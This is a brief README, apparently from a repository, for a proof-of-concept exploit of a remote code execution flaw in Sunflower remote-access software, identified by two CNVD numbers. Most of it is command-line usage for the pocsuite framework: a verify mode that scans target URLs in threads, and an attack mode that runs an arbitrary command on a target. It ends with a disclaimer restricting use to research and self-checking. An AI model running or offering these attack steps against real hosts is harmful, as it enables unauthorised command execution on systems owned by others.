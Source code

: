 # sunflower_RCE_POC（CNVD-2022-10270/CNVD-2022-03672）
en_sunflower_RCE_POC
POC:pocsuite -r en_sunflower_RCE_POC.py -u url --verify --thread 10
![1645599856(1)](https://user-images.githubusercontent.com/54984589/155274394-b8e92e9e-d860-4578-9bf1-fd6ca2b2dd5e.png)

EXP:pocsuite -r en_sunflower_RCE_POC.py -u url --attack --command [command]
![1645600033(1)](https://user-images.githubusercontent.com/54984589/155274717-cc23aa93-7a56-4ecd-a8a6-10719647f37f.png)


# 免责声明
## 此工具仅用于学习、研究和自查。不应将其用于非法目的。使用本工具产生的一切风险与我无关！
# Disclaimer
## This tool is for study, research, and self-examination only. It should not be used for illegal purposes. All risks arising from the use of this tool have nothing to do with me!
